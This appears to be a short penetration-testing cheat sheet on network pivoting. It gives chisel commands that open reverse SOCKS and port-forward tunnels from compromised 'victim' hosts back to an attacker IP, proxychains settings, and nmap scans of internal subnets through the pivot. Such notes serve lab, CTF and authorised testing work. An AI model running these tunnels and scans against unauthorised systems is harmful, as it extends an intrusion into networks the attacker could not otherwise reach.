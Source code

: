 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/


##  Proxies

### Reverse proxy

Attacker <-------- Victim Pivot <-------- Next Victim

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

 chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24

### Second pivot point Reverse Proxy

Attacker <-------- Victim Pivot 1 <-------- Victim Pivot 2 <-------- Next Victim

If second pviot point is needed then perform following actions:

Set up new server (this time non socks)

./chisel server --reverse --port 9902


Activate client on victims host

./chisel client 10.10.14.xxx:9902 R:443:127.0.0.1:443 

So now port 443 from victim can be accessed on Attacker via 127.0.0.1:443 


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

